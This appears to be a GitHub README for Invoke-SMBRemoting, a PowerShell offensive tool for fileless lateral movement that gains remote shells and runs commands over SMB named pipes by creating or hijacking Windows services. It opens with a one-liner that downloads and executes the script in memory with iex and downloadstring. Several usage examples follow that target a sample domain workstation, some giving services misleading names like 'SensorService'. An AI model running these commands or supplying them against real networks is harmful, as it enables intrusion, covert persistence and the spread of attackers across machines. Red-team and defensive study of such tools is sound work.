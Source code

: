 # Invoke-SMBRemoting
Interactive Shell and Command Execution over Named-Pipes (SMB) for Fileless lateral movement.

Invoke-SMBRemoting is a PowerShell tool that enables command execution or interactive shell access over Named Pipes (SMB) on a remote host. It leverages Windows services for fileless lateral movement by either creating or modifying a service on the target machine.

The tool supports specifying commands or establishing a persistent shell connection, and requires administrative rights on the target

First, load the script in memory:

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-SMBRemoting/main/Invoke-SMBRemoting.ps1')
```

### Interactive Shell
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local"
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -PipeName Something -ServiceName RandomService
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -Verbose
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -ServiceName SensorService -Verbose
```

### Command Execution
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all"
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -PipeName Something -ServiceName RandomService
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService -ServiceName SensorService -Verbose
```

![image](https://github.com/Leo4j/Invoke-SMBRemoting/assets/61951374/645eaffe-e3d3-4428-b7a4-14bf95f5ddce)



